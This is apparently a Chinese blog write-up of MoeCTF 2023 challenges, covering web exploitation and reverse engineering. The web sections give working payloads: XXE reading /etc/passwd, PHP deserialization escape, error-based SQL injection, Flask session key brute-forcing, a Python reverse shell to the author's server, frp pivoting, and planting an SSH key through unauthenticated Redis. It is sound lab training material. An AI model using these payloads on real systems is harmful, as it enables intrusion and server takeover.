




## **_前言_**

好久没玩CTF了，玩玩MoeCTF，就当是温故知新

西电的这个终端看起来好高级的样子

之前还没用过这种，长见识了


# WEB

## Web入门指北

**DESCRIPTION: 解码获取flag**

在MoeCTF2023群里有个指北文件

题目要解码文件里的东西

那就来看看


在文件的末尾有一段字符串

浅浅看了一下，应该是一个十六进制的字符串

拿去cyberchef解密一下

**输入：**

**666c61673d6257396c5933526d6533637a62454e7662575666564739666257396c513152475831637959**

**6c396a61474673624756755a3055684958303d**

**输出：**

**flag=bW9lY3Rme3czbENvbWVfVG9fbW9lQ1RGX1cyYl9jaGFsbGVuZ0UhIX0=**

十六进制转换之后得到的字符串仍需解密，但一眼看出Base64


## HTTP

**DESCRIPTION: 听说这个http里还有个什么东西叫饼干，也不知道是不是吃的**


题目给出了5个任务

照着做就行了

- 1、要有一个参数为UwU，值为u，这个是在url里

- 2、用post请求发送，请求体里要有Luv=u

- 3、用管理员身份，这个要抓包来修改

- 4、伪造请求来源，经典的X-Forwarded-For头就能解决

- 5、用Moe浏览器，修改User-Agent即可


## Cookie

**hint: readme只是一个样例，不是拿来复制的**

readme如下


经过测试，用户名koito和admin是已经被注册了，而且密码不是123456

那就随便注册一个名字吧


然后尝试获取flag（肯定是过不了的，先抓个包


看来这个cookie是可以伪造的

先把character改为admin

然后token的部分，起初我以为是flask的session伪造（太久没做这种题，一下子没反应过来

后来才发现就只是个base64加密而已


解密之后修改一下role的值然后再加密回去就能伪造admin的身份了


## 彼岸的flag

**DESCRIPTION: 我们在某个平行宇宙中得到了一段moectf群的聊天记录，粗心的出题人在这个聊天平台不小心泄露了自己的flag**

送分题没意思

在网页源码里发现flag


## gas!gas!gas!

**DESCRIPTION: Klutton这个假期信心满满地准备把驾照拿下，于是他仔细地学习了好多漂移视频，还准备了这么一个赛博赛车场；诶，不对，开车好像不是用键盘开的？**


要求在0.5秒内反应，基本上用鼠标点是不行的（肯定不行

那么就要写脚本了

先随便抓个包


可以看到在POST请求体里有相应的反应动作

这都在网页源码里有


先上代码👇

```
import requests
import re
session=requests.session()
pattern=re.compile('<font color="red">(.+)</font>')#用于提取系统反馈给我们的提示信息
direction=0
throttle=0
for i in range(6):
    url='http://localhost:54227/'

    data={"driver":"a","steering_control":f"{direction}","throttle":f"{throttle}"}
    r = session.post(url,data)
    t=re.findall(pattern,r.text)[0]
    if "左" in t:
        direction=1
    if "右" in t:
        direction=-1
    if "直" in t:
        direction=0
    if "大" in t:
        throttle=2
    if "小" in t:
        throttle=0
    if "保持" in t:
        throttle=1
    print(t)
    if i>=5:
        print(r.cookies)
```

比较简陋，但是很直观

有点小问题就是，在pycharm中当已经完成5次的时候，打印的响应text里没有flag的信息

就只有拿出cookie再重新发个包就能得出下图的flag了


很简单的写一个脚本的题目

## 大海捞针

**DESCRIPTION: 该死，之前的平行宇宙由于flag的泄露被一股神秘力量抹去，我们脱离了与那个宇宙的连接了！不过不用担心，看起来出题人傻乎乎的是具有泄露flag的概率的，我们只需要连接多个平行宇宙…（难道flag在多元宇宙里是全局变量吗）**


在id不同的时候，在源代码的这段注释里的内容也有所不同

看样子应该是在1-1000中有一个页面是有flag的

这里我们还是不那么原始地一个一个地试了


还是来写个脚本吧👇

```
import requests
import multiprocessing
import re
pattern=re.compile("<!--经过tracker，(.+)-->")
def p1():
    for i in range(1,300):
        url=f"http://localhost:54227/?id={i}"
        r=requests.get(url)
        text=re.findall(pattern,r.text)[0]
        print(text,i)
def p2():
    for i in range(300,600):
        url=f"http://localhost:54227/?id={i}"
        r=requests.get(url)
        text=re.findall(pattern,r.text)[0]
        print(text,i)
def p3():
    for i in range(600,1000):
        url=f"http://localhost:54227/?id={i}"
        r=requests.get(url)
        text=re.findall(pattern,r.text)[0]
        print(text,i)

if __name__=="__main__":
    prc1=multiprocessing.Process(target=p1)
    prc2=multiprocessing.Process(target=p2)
    prc3=multiprocessing.Process(target=p3)
    prc1.start()
    prc2.start()
    prc3.start()

```

这里用到了一个多线程的思想，节约了一点时间（因为这个网页的响应速度太慢了。。。

要多等一会，最终也成功找到flag


## moe图床

**DESCRIPTION: 我们准备了一个moe图床用于上传一些图片**

一道文件上传的题


在网页源码中发现，前端会对文件后缀进行修改

上传按钮也有伴随事件


然后我尝试修改script的内容发现也没用

那就尝试一下先把php文件改为png，然后抓包再改回php试试


经过测试直接改后缀是不管用的，不管是php3、4、5还是phtml

那就尝试增加后缀吧，结果就成功了



然后连接蚁剑，在根目录下得到flag


## 了解你的座驾

**DESCRIPTION: 为了极致地漂移，我们准备了一个网站用于查找你喜欢的车车；听说flag也放在里面了，不过不在网站目录放在根目录应该没问题的吧。。。**


源码里没东西，先抓个包


可以看到有xml格式的内容

那就尝试一下XXE注入吧

一般来说常用的XXE代码是这样的👇

```
<?xml version=”1.0″?>
    <!DOCTYPE a[
    <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <abc>&xxe;</abc>
```

但是经过测试，<?xml version=”1.0″?>这一行好像会报错，不过删了也没关系

最终代码👇

```
<!DOCTYPE a[
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<xml><name>&xxe;</name></xml>
```


## 夺命十三枪

**DESCRIPTION: 夺命十三枪！然后是啥来着？**


看样子应该是一道反序列化字符逃逸的问题

看看那个包含的文件呢


字符串替换的函数，有很多可以选择

最终要达成Spear\_Owner为MaoLei就能得到flag了


```
如果正常没有替换，得到的序列化字符串就是这样
O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:15:"夺命十三枪";s:11:"Spear_Owner";s:6:"Nobody";}
```

从index.php那里看来，是先生成的序列化字符串，然后进行字符串替换

意思就是Chant属性的字符串长度是不会变的

```
假如chant传参di_yi_qiang
那么得到
O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:11:"Lovesickness";s:11:"Spear_Owner";s:6:"Nobody";}
可以看到di_yi_qiang（长度为11），而Lovesickness（长度为12），成功逃逸出一个字符
```

而我们要构造的目标字符串是这样的👇

```
";s:11:"Spear_Owner";s:6:"MaoLei";}（长度为35）
```

直接上Payload👇

```
http://localhost:52707/?chant=di_er_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiang";s:11:"Spear_Owner";s:6:"MaoLei";}
```

## meo图床

**DESCRIPTION: 我们准备了一个meo(?)图床用于上传一些图片**


一道表面上是文件上传的题，真的很容易被带偏😫

经过测试，正常的图片（图片马）可以直接上传，如果是PHP文件带了GIF89a文件头也可以直接上传

但是蚁剑是连不上的

因为访问图片要通过另外一个 images.php 来查看

而查看就会是这样


抓包看效果也是直接输出文件内容，而不执行

这里用images.php尝试去访问目标主机下的其他文件

配合目录穿越，能看到upload.php的源码如下


可以看到文件上传后被加了随机前缀，而且只能通过images.php来访问

而images.php的源码如下


可以看到是直接echo文件内容，这里是无法执行内部php代码的，坑了我好久😭

到这里，其实这根本就不是一道文件上传题！！

尝试在根目录下寻找flag👇，的到另一个php文件


访问那个php文件👇


很简单的一个MD5弱比较

只需要MD5值为0e开头就可轻松绕过，下面是几个常用的MD5值为0e开头的

- QNKCDZO

- 240610708

- s878926199a

- s155964671a

- s21587387a

## signin

**DESCRIPTION: 真的是signin（ \*\*本题无需扫描器/爆破\*\***


题目附件里给到了源码

默认的账号密码都是admin

但是在源代码里可以看到几个限制条件


username不能是admin

然后username不能和password相同

那么通过了这两个就要来到hash比较

那么这个gethash函数和hash字典的代码如下👇


可以在本地调试一下，gethash函数的基本逻辑就是遍历字典里的键值，进行异或，admin、admin的hash值应该是‘0’，然后将原本的username和hash值一起储存到hashed\_users里


那么来到比较hash这一步，很明显在比较这里只是比较了hash值而并没有比较username


那要做的就是把hash值变为0，因为默认的admin用户密码产生的hashed就是0

而上面说到只有在username等于password时才能hash为0，但是数值相等的情况被ban了

关键点就在于


这个字符串的处理会将各种数据类型强制转换为字符串

```
a="123"
b=123
print(f"{a}{b}")

result:123123
```

我们可以随便抓个包，并把params里的值进行五次base64解密可得👇

```
{"username":"admin","password":"admin"}
```

可以看到如果是这样的话，虽然hash为0，第二关我们就过不了，因为都是字符串而且数值还一样

而上面说到gethash里的函数处理方式的问题

那么就可以尝试构造username和password数值相同但是数据类型不一样

比如说👇

```
{"username":"123","password":123}
```

这在第二步比较的时候会因为username和password的类型不同而绕过

然后把这段base64加密五次再抓包上传就能得到flag


## 出去旅游的心海

**DESCRIPTION: 欢迎来到心海新建的博客！正值假期期间，她抓紧时间出去旅游放松一下，看看她最近都在研究什么？**


flag是打不开的，进入wordpress是一个博客


博客页面右边有来访者信息，但是是通过页面脚本直接获得的，修改也没用

在源代码里也有处理这些信息的脚本代码👇


可以看到是通过一个api获得主机信息然后映射到页面，最后通过这个logger.php

那打开logger.php看看，关键点看箭头👇


首先time是进行了stripslashes，就是特殊字符不会被转义

其次time在insert语句里没有被引号包裹，可以尝试注入

最后插入失败会有报错信息

综上，应该能想到是报错注入

这个经过测试，ip和user\_agent都是varchar类型的，传不传值都可以，time则是time字符串类型的，不符合时间类型的字符串是会报错，而且由于sql语句从左往右进行报错终止，前面报错了会导致到后面报错信息的不出现（可以本地弄个mysql尝试一下

那么先试试吧👇可以看到爆出了数据库名



那么尝试爆一下表呢


会发现即使后面注入语句没有问题，time原来是字符串格式，但是有or的存在，mysql会计算两端字符串的值，time就会以double的形式被计算，所以会报错

其实只需要把time的日期部分改成空字符串就可以了，因为在insert的时候是先判断计算这个time的语句是否合法，然后再插入，插入是后面的事情，我们在判断的时候就能看到想要的报错信息

```
ip=&user_agent=&time='' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())),1)    ##爆表名

ip=&user_agent=&time='' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='secret_of_kokomi')),1)     ##爆列名

ip=&user_agent=&time=''  or updatexml(1,concat('#',substring((select group_concat(content)from secret_of_kokomi where id=3),1,30)),0)  ##爆flag
```


因为有报错信息长度的限制，这里用一个substring就好了

当然也可用sqlmap直接一把梭。。

## moeworld

**CHALLENGE: moeworld  
DESCRIPTION: 你已经学会了1+1=2，接下来尝试真实的渗透吧~  
解压密码为“出去旅游的心海”的flag**

先随便注册一个账号进去看到admin的留言


很明显是要进行session伪造

给出了部分的key，虽然后面部分是随机的，但是只有四位，是可以进行爆破的

爆破脚本如下，自己修改cookie👇

```
#!/usr/bin/env python3
""" Flask Session Cookie Decoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

import zlib
from itsdangerous import base64_decode
import ast
import os
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

class FSCM:
    @staticmethod
    def decode(session_cookie_value, secret_key=None):
        try:
            if secret_key is None:
                compressed = False
                payload = session_cookie_value
                if payload.startswith('.'):
                    compressed = True
                    payload = payload[1:]
                data = payload.split(".")[0]
                data = base64_decode(data)
                if compressed:
                    data = zlib.decompress(data)
                return data
            else:
                app = MockApp(secret_key)
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)
                return s.loads(session_cookie_value)
        except Exception as e:
            return "[Decoding error] {}".format(e)

if __name__ == "__main__":
    cnt=1
    while True:
        cookie_value = 'eyJwb3dlciI6Imd1ZXN0IiwidXNlciI6ImFzZCJ9.ZPabPw.NC1Zaj2Hgq5v8GDo0SVtc3qC6Ek'
        secret_key = "This-random-secretKey-you-can't-get"+os.urandom(2).hex()
        if secret_key:
            result = FSCM.decode(cookie_value, secret_key)
        else:
            result = FSCM.decode(cookie_value)
        cnt+=1
        print(result,cnt)
        if 'power' in result:
            print(result,secret_key,'YES')
            break
```

爆破后，利用admin的session进入，看到admin留下的pin码

进入网站下的/console，进行命令执行


这里为了方便操作，我把shell反弹到了我自己的服务器上

```
nc -lvnp port
//打开自己服务器的端口监听
//将下面的命令修改为自己的ip和端口，全部复制到console执行就能得到shell权限
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

在根目录下找到部分flag

```
$ cat /flag
Oh! You discovered the secret of my blog.
But I divided the flag into three sections,hahaha.
This is the first part of the flag
moectf{Information-leakage-Is-dangerous!
```

然后下面是reademe👇

```
$ cat /readme 
恭喜你通过外网渗透拿下了本台服务器的权限
接下来，你需要尝试内网渗透，本服务器的/app/tools目录下内置了fscan
你需要了解它的基本用法，然后扫描内网的ip段
如果你进行了正确的操作，会得到类似下面的结果
10.1.11.11:22 open
10.1.23.21:8080 open
10.1.23.23:9000 open
将你得到的若干个端口号从小到大排序并以 - 分割，这一串即为hint.zip压缩包的密码（本例中，密码为：22-8080-9000）
注意：请忽略掉xx.xx.xx.1，例如扫出三个ip 192.168.0.1 192.168.0.2 192.168.0.3 ，请忽略掉有关192.168.0.1的所有结果！此为出题人服务器上的其它正常服务
对密码有疑问随时咨询出题人$ 
```

要使用fscan的话首先要知道内网ip是多少

这里要进入 /etc/hosts 进行查看存活主机

```
cat /etc/hosts
127.0.0.1   localhost
::1  localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.4  7ce8be7b3d4a
172.21.0.3  7ce8be7b3d4a
```

然后进行扫描👇


按照要求排序端口，得到密码22-3306-6379-8080

解压hint👇

```
当你看到此部分，证明你正确的进行了fscan的操作得到了正确的结果
可以看到，在本内网下还有另外两台服务器
其中一台开启了22(ssh)和6379(redis)端口
另一台开启了3306(mysql)端口
还有一台正是你访问到的留言板服务
接下来，你可能需要搭建代理，从而使你的本机能直接访问到内网的服务器
此处可了解`nps`和`frp`，同样在/app/tools已内置了相应文件
连接代理，推荐`proxychains`
对于mysql服务器，你需要找到其账号密码并成功连接，在数据库中找到flag2
对于redis服务器，你可以学习其相关的渗透技巧，从而获取到redis的权限，并进一步寻找其getshell的方式，最终得到flag3
```

先来做mysql服务器的部分

在app文件夹里有个datasql的py文件，里面有连接数据库的相关信息

```
db = pymysql.connect(
                    host="mysql",  # 数据库地址
                    port=3306,  # 数据库端口
                    user="root",  # 数据库用户名
                    passwd="The_P0sswOrD_Y0u_Nev3r_Kn0w",  # 数据库密码
                    database="messageboard",  # 数据库名
                    charset='utf8'
                )
```

接下来就是开启代理的步骤

需要有一台有公网IP的服务器（就像我这个博客一样也是一个服务器），然后还要一个虚拟机kali

frp这个工具，可以搜一搜具体的使用方法

在tools里存有frp的客户端的ini，只不过里面的配置无法使用

回想起来出题人在群里提过一句写文件要到tmp目录下

那么就应该是要我们自己到tmp目录下创建能够使用的frp配置文件

这里靶机是客户端，那么客户端配置文件的写法比较简单

由于vim不能使用，那就用>尖括号配合echo来创建文件，记得切换目录到tmp（中文是要改的部分

```
echo '[common]\nserver_addr = 自己的公网服务器IP\nserver_port = 稍后会用作代理的端口\ntoken = 对接密码\n\n[plugin_socks5]\ntype = tcp\nplugin = socks5\nremote_port = 用于连接frp的端口\n' > frpc.ini
```

同时我们自己的公网服务器也要下载frp这个文件

具体代码如下

```
#安装
wget https://github.com/fatedier/frp/releases/download/v0.38.0/frp_0.38.0_linux_amd64.tar.gz

#解压
tar -xzvf frp_0.38.0_linux_amd64.tar.gz
```

修改自己服务器的的frps.ini

```
[common]

bind_port = 用于frp的端口#这个是服务器上建立连接的端口

token = 对接密码# 这个token在客户端会用到
```

然后执行以下命令

```
在自己服务器上： ./frps -c frps.ini
在靶机上：进入frp目录  ./frpc -c /tmp/frpc.ini
```

如果成功会看到这样的截图👇


这就说明靶机和自己的服务器已经成功建立连接，自己的服务器已经处于靶机的内网环境下

并且自己的服务器开启了socks5代理，并且可以通过这个代理访问内网其他的主机

然后进入kali

```
#进入root
sudo su
#然后修改proxychains的配置
vim /etc/proxychains4.conf
```

如图👇


中间用空格隔开，保存退出，然后执行以下命令

```
proxychains4 mysql -uroot -pThe_P0sswOrD_Y0u_Nev3r_Kn0w  -h172.20.0.3
#选项和参数之间加空格就要自己输入密码
#不加空格就默认后面的字符串为密码
```

就能成功连接mysql，找到中间部分的flag


最后就只剩下redis的部分了

思路：先在自己的主机上生成公[私钥](https://so.csdn.net/so/search?q=%E7%A7%81%E9%92%A5&spm=1001.2101.3001.7020)对，利用redis的数据备份功能，将自己的公钥写入到目标服务器的/etc/authorized\_keys中，然后使用ssh的私钥直接登录目标服务器。

首先在自己的kali上生成公私钥

```
ssh-keygen -t rsa
#然后会出现几个空让你填，直接全部回车就好
#在/root/.ssh 目录下会生成两个文件，一个是key 一个是key.pub（公钥
#记得复制这个公钥
```

然后redis有个未授权访问漏洞，但是只能写文件，不能读取

我们的目的就是要将我们自己的公钥写入redis

在kali端执行👇

```
proxychains4 redis-cli -h 172.20.0.2
```

进入交互，写入公钥👇

```
config set dir /root/.ssh
config set dbfilename authorized_keys
set key "\n\n生成的公钥\n\n"
save
#每条命令执行完后都应该是OK，如果错了就重来
```

如图所示就成功了👇


拿到最终flag👇


过程中保持frp的开启就行了

艰难AK。。。。

# RE

## base\_64

**DESCRIPTION: base64是一种编码方式，不过这个好像有点奇怪？  
hint:pyc文件的反编译可以试试pycdc,或者找找在线的反编译工具**

下载下来是一个pyc文件

pyc：当python程序运行时，编译的结果是保存于PyCodeObject，程序运行结束后，Python就将PyCodeObject写入到pyc文件中，这是个字节码文件。

可以找网上的pyc反编译网址👇


可以看到字典是被换了，用普通的base64是无法解出来的

这里的话，可以找网上的base64代码来修改字典

但是在网站里有更方便的方法👉[CyberChef (1357310795.github.io)](https://1357310795.github.io/CyberChef-CN/)，就不用再写代码了


## UPX!

**DESCRIPTION: 浮小云把自己珍藏的flag锁在UPX里了，这样应该就万无一失了吧？  
注意：可以先做xor。如果对这道题感到困难，自行搜索学习UPX是什么。**

上网搜索一下UPX的相关知识，得知文件可以进行UPX加壳，防止反编译

upx脱壳加壳工具是一款可以专门用来进行文件脱壳和加壳的可执行程序文件压缩器，利用该软件进行脱壳和加壳处理，从而增强文件的保密性。还可以使用该软件压缩文件，减小文件的体积。

如果不进行脱壳就直接拖进IDA，那么可见函数就会很少，（下图与本题无关


这里配上UPX脱壳工具的链接👉：[【逆向】UPX工具使用及加壳\_upx.exe\_江湖one Cat的博客-CSDN博客](https://blog.csdn.net/qq_43633973/article/details/102573376)

脱壳之后，通过字符串索引到主页面👇


可以看到似乎就是个简单的异或解密

这时密文的十六进制编码👇，只需逐位异或0x67u（也就是小写字母g

这里的dup，举个例子：3 dup('F')='F' 'F' 'F' ,就相当于是多个相同的数据的简写形式


配上代码👇

```
/*C语言代码
UPX!!
int main()
{
    int a[] = { 0x0a,8,2,4,0x13,1,0x1c,'W',0x0F,'8',0x1e,'W',0x12,'8',',',9,'W',0x10,'8','/','W',0x10,'8',0x13,8,'8','5',2,0x11,'T',0x15,0x14,2,'8','2','7','?', 'F','F','F',0x1a};
    for (int i = 0; i < 41; i++)
    {
        printf("%c", a[i] ^ 'g');
    }
    return 0;
}

*/
```


## Xor

**DESCRIPTION: 这题是一个简单的异或算法。相信初学者们在熟悉了一些例如ida等工具的使用之后能很快解决。  
提示：异或有个特点，a ^ b = c ，那么c ^ a =b**



操作和上面那个UPX是一模一样的，只是不用脱壳


这里我的IDA添加的Lazyida插件似乎在64位ida中无法使用，点了没效果，只能手抄了

最开始我用的pycharm来跑代码，但是会跑出来不可见字符，Visualstudio则不会😑

配上代码👇

```
异或
int main()
{
    int a[] = {0x54,0x56,0x5C,0x5A,0x4D,0x5F,0x42,0x60,0x56,0x4C,0x66,0x52,0x57,0x9,0x4E,0x66,0x51,0x9,0x4E,0x66,0x4D,0x9,0x66,0x61,0x9,0x6B,0x18,0x44};
    char s[28];

    for (int i = 0; i < 28; i++)
    {
        s[i] = a[i] ^ '9';
    }
    printf("%s", s);
    return 0;
}
```

## ANDROID

**DESCRIPTION: 简单的android，需要一点点java基础。  
看不懂Java代码也可以问问AI？  
如果不知道一个apk文件应该怎么分析，可以试试JADX**

jadx这个软件我找了半天也没找到，最后用的是另一个软件GDA


用法也是很简单的，把apk拖进GDA然后点击一下Entry就能看到主函数了👇


源代码👇

```
public class MainActivity extends AppCompatActivity	// class@000f44 from classes.dex
{
    char[] enc;
    char[] key;

    public void MainActivity(){
       super();
       this.enc = new char[31]{25,7,0,14,27,3,16,'/',24,2,9,':',4,1,':','*',11,29,6,7,12,9,'0','T',24,':',28,21,27,28,16};
       this.key = new char[9]{'t','h','e','m','o','e','k','e','y'};
    }
    protected void onCreate(Bundle p0){
       super.onCreate(p0);
       this.setContentView(R.layout.activity_main);
       this.findViewById(R.id.check).setOnClickListener(new MainActivity$1(this, this.findViewById(R.id.input)));
    }
}
```

有用的信息就只有 enc 和 key 两个数组

enc 是密文，而 key 是对应的密钥

算法方面的话，一眼可能有点迷糊，其实还是异或😅

只是按照下标顺序将key与enc进行异或，key的下标超过数组大小就重置为0

代码如下👇：

```
#include <stdio.h>

char enc[31] = { 25, 7, 0, 14, 27, 3, 16, '/', 24, 2, 9, ':', 4, 1, ':', '*', 11, 29, 6, 7, 12, 9, '0', 'T', 24, ':', 28, 21, 27, 28, 16 };
char key[9] = { 't', 'h', 'e', 'm', 'o', 'e', 'k', 'e', 'y' };

void decrypt(char* enc, int encLen, char* key, int keyLen) {
    for (int i = 0; i < encLen; i++) {
        enc[i] = enc[i] ^ key[i % keyLen]; // 使用异或运算解密
    }
}

int main() {
    int encLen = sizeof(enc) / sizeof(enc[0]);
    int keyLen = sizeof(key) / sizeof(key[0]);

    decrypt(enc, encLen, key, keyLen);

    printf("Decrypted message: %s\n", enc);

    return 0;
}

```

## RRRRRc4

**DESCRIPTION: 一天dr3找到浮小云，说要给他看个好东西，说着就用神秘的Rc4把浮小云珍贵的flag给弄得一团糟。现在，唯有你能拯救浮小云的flag，将混乱变为秩序！**

主函数是这样的👇其中一些函数名称我做了调整


其中的RC4函数就是RC4加密函数，其中的变量v7就是解密密钥

查看一下secret数组的内容，可以看到37位的十六进制密文


那么现在有了密文，有了密钥可以直接去解密了

同样来到Cyberchef👇



## SMC

**DESCRIPTION: smc是一种程序在运行时修改自身的方法  
建议了解一些C语言及逆向基础知识再来尝试  
需要的话可以尝试搜索CTF SMC并尝试例题**


主函数内有点价值的就只有这一个了

在搜索SMC相关知识后，在该函数内发现类似于smc的东西👇


可以看到函数地址往后122位逐位都进行了异或操作

在程序没有运行的时候，显示的函数源码都是乱的👇，只有当程序运行的时候，函数才会还原成能被执行的样子


那么根据上面的异或加密过程，我们要写一个脚本👇

```
import idc

addr=0x004014D0

for i in range(122):
    b = get_bytes(addr + i, 1)
    idc.patch_byte(addr + i, ord(b) ^ 0x66)
```

保存在本地然后进入IDA，选择File->Script file 然后选择这个脚本文件

那么程序的数据就被我们修改了

执行完毕后会看到这样👇


数据是成功被修改了，但是会存在一些db孤立字节，这时候把函数内存区域内的db全部选中按C强制转换为汇编代码，换句话说，执行完脚本后ida解出来的只是碎片，我们要自己拼回去

保证没有函数区域内没有db字样后，选择菜单里的Edit->Functions->Create Function

然后回到页面点击那个函数，就能看到函数能够被执行的样子


（这一步没出来可以反复多试几次

基本逻辑都出来了，密文异或0x39然后减去57就是明文的ascii码

后面的密文也是看得到的👇


用LazyIDA插件快速提取密文

下面是python解密代码👇：

```
l=[0x9F, 0x91, 0xA7, 0xA5, 0x94, 0xA6, 0x8D, 0xB5, 0xA7, 0x9C, 0xA6, 0xA1, 0xBF, 0x91, 0xA4, 0x53, 0xA6, 0x53, 0xA5, 0xA3, 0x94, 0x9B, 0x91, 0x9E, 0x8F, 0x00, 0x00]
for i in l:
    print(chr((i^0x39)-57),end='')

```
